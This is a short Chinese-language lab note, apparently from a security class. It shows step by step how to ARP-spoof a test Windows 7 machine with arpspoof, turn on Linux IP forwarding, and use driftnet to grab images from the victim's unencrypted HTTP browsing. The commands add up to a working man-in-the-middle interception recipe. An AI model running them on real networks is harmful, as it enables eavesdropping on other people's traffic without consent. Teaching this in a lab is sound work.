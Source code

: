 





# 通过ARP欺骗后抓取被攻击机访问的网站图片

* http (**80端口**) 非加密

  一般职业学院还在使用

* https (**443端口**) 加密,无法直接抓取

* 进行arp欺骗

  ```
  arpspoof -i eth0 -t 192.168.242.128 -r 192.168.242.2
  # -i后接网卡名称，可以用 IP a查看IP地址前对应的网卡名称
  # -t后接攻击目标的IP地址
  # -r后接攻击目标网关的IP地址
  ```

  ![image-20230805143056406](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230805143056406.png)

  欺骗成功

  ![image-20230805143230971](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230805143230971.png)

* 开启Linux内核转发

  ```
  echo 1 > /proc/sys/net/ipv4/ip_forward
  #将ip_forward赋值为1，可用cat /proc/sys/net/ipv4/ip_forward命令查看
  #值为1时开启内核转发，为0则不转发，被攻击机器无法正常上网
  ```

  ![image-20230805142856072](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230805142856072.png)

  Win7正常访问网页

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230805143337241.png" alt="image-20230805143337241" style="zoom:67%;" />

* 使用driftent（不好用）

  * 抓取用户网页图片

    * 安装工具

    ```
    apt-get install driftnet
    ```

    * 使用命令

    ```
    driftnet -i eth0
    #eth0为使用的网卡
    ```
